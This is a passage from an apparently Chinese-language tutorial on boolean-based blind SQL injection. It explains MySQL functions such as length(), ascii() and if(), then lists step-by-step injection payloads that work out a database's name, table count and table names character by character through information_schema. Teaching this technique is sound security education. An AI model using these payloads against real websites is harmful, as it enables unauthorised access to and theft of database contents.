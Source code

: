 * 获取数据库长度

* 使用方法：length(arg1)，arg1代表字符串(数据库名)

  ```
  select length(database())
  ```

###### ③ascii()

* 将单一字符，转化为ascii码值

* 使用方法：ascii(str)，str代表字符

  ```
  select ascii('a')
  ```

###### ④if()

* 条件判断

* 使用方式：if(exp1,true,false)

  ```
  select if(length(database())>0,1,0)
  ```

###### ⑤count()

* 判断记录数

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and (length(database()))=n --+		//n为数据库名长度
```

###### ②获取数据库名称

```
1' and (ascii(substr(database(),n,1))=m) --+		//n为第几个位置，m为ascii码[65,122]
```

###### ③获取表名长度

```
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m) --+
  //m为表名长度
//获取表的个数
1' and (select count(*) from information_schema.tables where table_schema=database())=m -- qwe	//m为表的个数
```

###### ④获取表名

```
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```
